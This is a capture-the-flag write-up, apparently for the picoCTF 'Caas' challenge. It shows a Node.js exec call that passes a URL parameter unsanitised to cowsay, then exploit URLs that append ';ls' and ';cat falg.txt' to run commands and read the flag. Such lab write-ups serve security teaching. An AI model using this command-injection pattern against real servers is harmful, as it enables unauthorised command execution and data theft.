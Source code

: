 # Caas
#### Command Injection Attacks
Command injection attacks are a type of security vulnerability where an attacker can execute arbitrary commands on a system or application by injecting malicious input. These attacks primarily occur when an application incorporates user-provided data in commands that are sent to a system shell, interpreter, or similar execution environment without proper validation or sanitation.
#### Solution
- Inspectiong the ```index.js``` file 

![alt text](https://github.com/Apetun/CryptoniteSTP/blob/main/picoGym/Caas/Screenshot%202023-11-04%20003926.png)

- We can see that in the following line of code the request parameter is passed to the ```cowsay``` command without any validation or sanitation

```python 
exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
```

- We can use this to execute arbitrary commands on the server

- Running the ls command using the url ```https://caas.mars.picoctf.net/cowsay/t;ls``` we get the following output

![alt text](https://github.com/Apetun/CryptoniteSTP/blob/main/picoGym/Caas/Screenshot%202023-11-09%20093221.png)

- Opening the falg.txt file using the url ```https://caas.mars.picoctf.net/cowsay/t;cat falg.txt``` we get the flag

![alt text](https://github.com/Apetun/CryptoniteSTP/blob/main/picoGym/Caas/eqqeq.png)